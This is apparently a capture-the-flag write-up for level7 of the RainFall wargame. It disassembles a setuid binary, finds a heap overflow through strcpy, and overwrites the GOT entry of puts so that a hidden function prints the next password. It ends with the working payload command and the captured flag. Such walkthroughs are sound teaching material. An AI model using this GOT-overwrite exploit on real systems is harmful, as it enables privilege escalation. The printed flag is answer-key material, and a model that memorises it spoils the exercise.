

# level7

## Hint

When we log into the machine as `level7`, we notice a binary:

```shell-session
level7@RainFall:~$ ls -l
total 8
-rwsr-s---+ 1 level8 users 5648 Mar  9  2016 level7
```

We notice that the `guid` bit is set, so the executable gets the rights of its group owners granted when it is executed, and conveniently enough the group in question is our target for the current level.

That being said, it seems we need to look into the binary in order to try to understand what input it's awaiting.

The program is crashing (Segmentation Fault) when we try to run it with 1 or less arguments, and when the first argument has length > 20

```shell-session
level7@RainFall:~$ ./level7
Segmentation fault (core dumped)
level7@RainFall:~$ ./level7 a
Segmentation fault (core dumped)
level7@RainFall:~$ ./level7 a b
~~
level7@RainFall:~$ ./level7 aaaaaaaaaaaaaaaaaaaaa b
Segmentation fault (core dumped)
```

## gdb

So let's look inside the binary and try to understand what is going on.

First, as always, lets look at available functions and symbols and denote their addresses.

```gdb
gdb-peda$ info functions
All defined functions:

Non-debugging symbols:
0x0804836c  _init
0x080483b0  printf
0x080483b0  printf@plt
0x080483c0  fgets
0x080483c0  fgets@plt
0x080483d0  time
0x080483d0  time@plt
0x080483e0  strcpy
0x080483e0  strcpy@plt
0x080483f0  malloc
0x080483f0  malloc@plt
0x08048400  puts
0x08048400  puts@plt
[...]
0x08048430  fopen
0x08048430  fopen@plt
[...]
0x080484f4  m                                               <-- m
0x08048521  main                                            <-- main
[...]
gdb-peda$ info variables
All defined variables:

Non-debugging symbols:
[...]
0x0804993c  __dso_handle
0x08049940  completed.6159
0x08049944  dtor_idx.6161
0x08049960  c                                               <-- c
```

We have cut out some noise in the output but we can see the following relevant information:

- Some user-defined functions

```gdb
0x080484f4  m
0x08048521  main
```

- Some global variable

```gdb
0x08049960  c
```

### disas main

Disassembling main function gives us quite a big output.

Let's proceed with an overview first:

```gdb
gdb-peda$ disas main
Dump of assembler code for function main:
   0x08048521 <+0>:	push   ebp
   0x08048522 <+1>:	mov    ebp,esp
   0x08048524 <+3>:	and    esp,0xfffffff0
   0x08048527 <+6>:	sub    esp,0x20                        <-- Space of 32 bytes for the stack frame
   0x0804852a <+9>:	mov    DWORD PTR [esp],0x8             <-- Set 8 as the 1st argument to malloc()
   0x08048531 <+16>:	call   0x80483f0 <malloc@plt>          <-- Call to malloc(8)
   0x08048536 <+21>:	mov    DWORD PTR [esp+0x1c],eax        <-- Store the value return of malloc(8) unsigned int **a
   0x0804853a <+25>:	mov    eax,DWORD PTR [esp+0x1c]        <-- Load unsigned int **a
   0x0804853e <+29>:	mov    DWORD PTR [eax],0x1             <-- Set the first byte of a[0] to 1
   0x08048544 <+35>:	mov    DWORD PTR [esp],0x8             <-- Set 8 as the 1st argument to malloc()
   0x0804854b <+42>:	call   0x80483f0 <malloc@plt>          <-- Call to malloc(8)
   0x08048550 <+47>:	mov    edx,eax                         <-- Store the value return of malloc(8) to edx
   0x08048552 <+49>:	mov    eax,DWORD PTR [esp+0x1c]        <-- Load unsigned int **a
   0x08048556 <+53>:	mov    DWORD PTR [eax+0x4],edx         <-- Set the 4th byte of unsigned int **a to edx (a[1] = malloc(8))
   0x08048559 <+56>:	mov    DWORD PTR [esp],0x8             <-- Set 8 as the 1st argument to malloc()
   0x08048560 <+63>:	call   0x80483f0 <malloc@plt>          <-- Call to malloc(8)
   0x08048565 <+68>:	mov    DWORD PTR [esp+0x18],eax        <-- Store the value return of malloc(8) to unsigned int **b
   0x08048569 <+72>:	mov    eax,DWORD PTR [esp+0x18]        <-- Load unsigned int **b
   0x0804856d <+76>:	mov    DWORD PTR [eax],0x2             <-- Set the first byte of b[0] to 2
   0x08048573 <+82>:	mov    DWORD PTR [esp],0x8             <-- Set 8 as the 1st argument to malloc()
   0x0804857a <+89>:	call   0x80483f0 <malloc@plt>          <-- Call to malloc(8)
   0x0804857f <+94>:	mov    edx,eax                         <-- Store the value return of malloc(8) to edx
   0x08048581 <+96>:	mov    eax,DWORD PTR [esp+0x18]        <-- Load unsigned int **b
   0x08048585 <+100>:	mov    DWORD PTR [eax+0x4],edx      <-- Set the 4th byte of unsigned int **b to edx (b[1] = malloc(8))
   0x08048588 <+103>:	mov    eax,DWORD PTR [ebp+0xc]      <-- Load the value of char *argv[]
   0x0804858b <+106>:	add    eax,0x4                      <-- Add 4 to the address of char *argv[]
   0x0804858e <+109>:	mov    eax,DWORD PTR [eax]          <-- Load the value of char *argv[1]
   0x08048590 <+111>:	mov    edx,eax                      <-- Store the value of char *argv[1] to edx
   0x08048592 <+113>:	mov    eax,DWORD PTR [esp+0x1c]     <-- Load char *a
   0x08048596 <+117>:	mov    eax,DWORD PTR [eax+0x4]      <-- Load the value of a[1]
   0x08048599 <+120>:	mov    DWORD PTR [esp+0x4],edx      <-- Set char *argv[1] as the 2nd argument to strcpy()
   0x0804859d <+124>:	mov    DWORD PTR [esp],eax          <-- Set a[1] the 1st argument to strcpy()
   0x080485a0 <+127>:	call   0x80483e0 <strcpy@plt>       <-- Call to strcpy(a[1], argv[1])
   0x080485a5 <+132>:	mov    eax,DWORD PTR [ebp+0xc]      <-- Load the value of char *argv[]
   0x080485a8 <+135>:	add    eax,0x8                      <-- Add 8 to the address of char *argv[]
   0x080485ab <+138>:	mov    eax,DWORD PTR [eax]          <-- Load the value of char *argv[2]
   0x080485ad <+140>:	mov    edx,eax                      <-- Store the value of char *argv[2] to edx
   0x080485af <+142>:	mov    eax,DWORD PTR [esp+0x18]     <-- Load char *b
   0x080485b3 <+146>:	mov    eax,DWORD PTR [eax+0x4]      <-- Load the value of b[1]
   0x080485b6 <+149>:	mov    DWORD PTR [esp+0x4],edx      <-- Set char *argv[2] as the 2nd argument to strcpy()
   0x080485ba <+153>:	mov    DWORD PTR [esp],eax          <-- Set b[1] the 1st argument to strcpy()
   0x080485bd <+156>:	call   0x80483e0 <strcpy@plt>       <-- Call to strcpy(b[1], argv[2])
   0x080485c2 <+161>:	mov    edx,0x80486e9                <-- Load "r"
   0x080485c7 <+166>:	mov    eax,0x80486eb                <-- Load "/home/user/level8/.pass"
   0x080485cc <+171>:	mov    DWORD PTR [esp+0x4],edx      <-- Set "r" as the 2nd argument to fgets()
   0x080485d0 <+175>:	mov    DWORD PTR [esp],eax          <-- Set "/home/user/level8/.pass" as the 1st argument to fgets()
   0x080485d3 <+178>:	call   0x8048430 <fopen@plt>        <-- Call to fopen("/home/user/level8/.pass", "r")
   0x080485d8 <+183>:	mov    DWORD PTR [esp+0x8],eax      <-- Set the return value of fopen("/home/user/level8/.pass", "r") as the 3rd argument to fgets()
   0x080485dc <+187>:	mov    DWORD PTR [esp+0x4],0x44     <-- Set 68 bytes as the 2nd argument to fgets()
   0x080485e4 <+195>:	mov    DWORD PTR [esp],0x8049960    <-- Set the address of c as the 1st argument to fgets()
   0x080485eb <+202>:	call   0x80483c0 <fgets@plt>        <-- Call to fgets(c, 68, fopen("/home/user/level8/.pass", "r"))
   0x080485f0 <+207>:	mov    DWORD PTR [esp],0x8048703    <-- Set "~~" as the 1st argument to puts()
   0x080485f7 <+214>:	call   0x8048400 <puts@plt>         <-- Call to puts("~~")
   0x080485fc <+219>:	mov    eax,0x0                      <-- Set eax to 0
   0x08048601 <+224>:	leave
   0x08048602 <+225>:	ret
End of assembler dump.
```

To sum up:

The `main()` function does several calls to `malloc()` and `strcpy()`, then opens the objective of the current exploit level (`/home/user/level8/.pass`) and write 68 bytes of that file to the global variable `c`.
And to finish, before `return(0)`, there is a call to the `puts()` with the static string `~~`.

So, keeping in mind our available symbols, there are no mention of `m()` in main...

So lets look inside `m()`.

Reminder: `0x08049960 c`

```gdb
gdb-peda$ disas m
Dump of assembler code for function m:
   0x080484f4 <+0>:	push   ebp
   0x080484f5 <+1>:	mov    ebp,esp
   0x080484f7 <+3>:	sub    esp,0x18                        <-- Space of 24 bytes for the stack frame
   0x080484fa <+6>:	mov    DWORD PTR [esp],0x0             <-- Set 0 as the 1st argument to time();
   0x08048501 <+13>:	call   0x80483d0 <time@plt>            <-- Call to time(0);
   0x08048506 <+18>:	mov    edx,0x80486e0                   <-- Load "%s - %d\n"
   0x0804850b <+23>:	mov    DWORD PTR [esp+0x8],eax         <-- Set value of time(0) as the 3rd argument to printf()
   0x0804850f <+27>:	mov    DWORD PTR [esp+0x4],0x8049960   <-- Set c as the 2nd argument to printf()
   0x08048517 <+35>:	mov    DWORD PTR [esp],edx             <-- Set "%s - %d\n" as the 1st argument to printf()
   0x0804851a <+38>:	call   0x80483b0 <printf@plt>          <-- Call to printf("%s - %d\n", c, time(0))
   0x0804851f <+43>:	leave
   0x08048520 <+44>:	ret
End of assembler dump.
```

So it's clear now that we need to manage to call the `m()` function in order to get to that call to printf that will display the pass we are looking for to `stdout`.

## gathering information

So how can we proceed ? Obviously, and as seen previously:
- `strcpy()` is a vulnerable function. It does not check length of buffer and writes until it comes across a `\0` character. It could be used to write arbitrary values in memory to change the behaviour in the program.
- There is a call to the PLT-queried `puts()` function. And we should therefor investigate rewriting the GOT-provided pointer with the address of that uncalled function `m()`

In order to do that we must understand how exactly are used the calls to `strcpy()`.

`ltrace` will help us on that matter:

```shell-session
level7@RainFall:~$ ltrace ./level7 ayooooo ayoooooooooooo
__libc_start_main(0x8048521, 3, 0xbffffce4, 0x8048610, 0x8048680 <unfinished ...>
malloc(8)                                                 = 0x0804a008
malloc(8)                                                 = 0x0804a018
malloc(8)                                                 = 0x0804a028
malloc(8)                                                 = 0x0804a038
strcpy(0x0804a018, "ayooooo")                             = 0x0804a018
strcpy(0x0804a038, "ayoooooooooooo")                      = 0x0804a038
fopen("/home/user/level8/.pass", "r")                     = 0
fgets( <unfinished ...>
--- SIGSEGV (Segmentation fault) ---
+++ killed by SIGSEGV +++
```

As we can see `argv[1]` and `argv[2]` are fed to the `strcpy()` calls.

Okay so know we can access these calls from the CLI, lets figure out the length of the buffer.

Do that we use our trusted `pattern-generator` and we see that `strcpy()` will start writing out of bound at an offset of `20` !

```gdb
[----------------------------------registers-----------------------------------]
EAX: 0x37614136 ('6Aa7')                                     <--- Offset address
EBX: 0xb7fd0ff4 --> 0x1a4d7c
ECX: 0x0
EDX: 0x37614136 ('6Aa7')
ESI: 0x0
EDI: 0x0
EBP: 0xbffffb88 --> 0x0
ESP: 0xbffffb5c --> 0x80485c2 (<main+161>:	mov    edx,0x80486e9)
EIP: 0xb7eb8aa8 (cmp    BYTE PTR [ecx],0x0)
EFLAGS: 0x210282 (carry parity adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0xb7eb8a9f:	nop
   0xb7eb8aa0:	mov    edx,DWORD PTR [esp+0x4]
   0xb7eb8aa4:	mov    ecx,DWORD PTR [esp+0x8]
=> 0xb7eb8aa8:	cmp    BYTE PTR [ecx],0x0
   0xb7eb8aab:	je     0xb7eb8f10
   0xb7eb8ab1:	cmp    BYTE PTR [ecx+0x1],0x0
   0xb7eb8ab5:	je     0xb7eb8f20
   0xb7eb8abb:	cmp    BYTE PTR [ecx+0x2],0x0
[------------------------------------stack-------------------------------------]
0000| 0xbffffb5c --> 0x80485c2 (<main+161>:	mov    edx,0x80486e9)
0004| 0xbffffb60 ("6Aa7")
0008| 0xbffffb64 --> 0x0
0012| 0xbffffb68 --> 0xb7fd0ff4 --> 0x1a4d7c
0016| 0xbffffb6c --> 0xb7e5ee55 (<__cxa_atexit+53>:	add    esp,0x18)
0020| 0xbffffb70 --> 0xb7fed280 (push   ebp)
0024| 0xbffffb74 --> 0x0
0028| 0xbffffb78 --> 0x804a028 ("a5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag")
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0xb7eb8aa8 in ?? () from /lib/i386-linux-gnu/libc.so.6
gdb-peda$

Program received signal SIGSEGV, Segmentation fault.
```



The next part is tricky if are unaware of how command line arguments are handled by the compiler in terms of bytecode generation.

You will find a short explanation [here](https://github.com/maxisimo/42-RainFall/blob/main/doc/asm_x86/main_args.md)

***TL;DR***

>```gdb
>0x08048ec9 <+6>:     mov    eax,DWORD PTR [ebp+0xc]
>0x08048ecc <+9>:     add    eax,0x4
>0x08048ecf <+12>:    mov    eax,DWORD PTR [eax]
>```
> <+6> : Store all parameters of the main function (all argv) in eax.
>
> <+9> : At this moment we add 0x4 to eax to reach argv + 1 (argv[1]). Here is how it work

Meaning:

> argc = [ebp+0x8]
> argv = [ebp+0xc + 4 * ARG_NUMBER]

This means that the addresses used for writing or reading `argv` are contiguous and therefor easily overwritable with a buffer overflow...

Finally, since we know there is a possibly for overwriting a `control-flow read` address at runtime, we should now focus on our GOT solution and nothing is easier, all we have to do is disassemble the call to the `puts()` function, denote the address and use it in our payload.

```gdb
gdb-peda$ disas puts
Dump of assembler code for function puts@plt:
   0x08048400 <+0>:	jmp    *0x8049928 <--- Address containing address of code for puts, soon to be rewritten with the address of m
   0x08048406 <+6>:	push   $0x28
   0x0804840b <+11>:	jmp    0x80483a0
End of assembler dump.
```
## We GOT to Overflow !!

To recap:
1. `strcpy()` is vulnerable to BO attacks
2. Offset of buffer is 20
3. `argv[1]` and `argv[2]` are fed to the `strcpy()` calls.
4. There is a call to a libc function `puts()` of which we could overwrite the GOT-provided address with the one of our uncalled function `m()`
5. `m()` address is `0x080484f4`
6. GOT-provided pointer to overwrite is at address `0x8049928`

So, if we overflow the buffer with the address of the pointer used for the GOT jump, and then feed as a second argument to the program the address of the `m()` function, the `strcpy()` calls will not only overwrite the address of the `argv[2]` with the one of the GOT pointer, but then overwrite the value INSIDE with the one of the `m()` function.

So lets get to it !!

```shell-session
level7@RainFall:~$ ./level7 $(python -c 'print "THISWILLFILLBUFFERRR\x28\x99\x04\x08"') $(python -c 'print "\xf4\x84\x04\x08"')
5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9
```

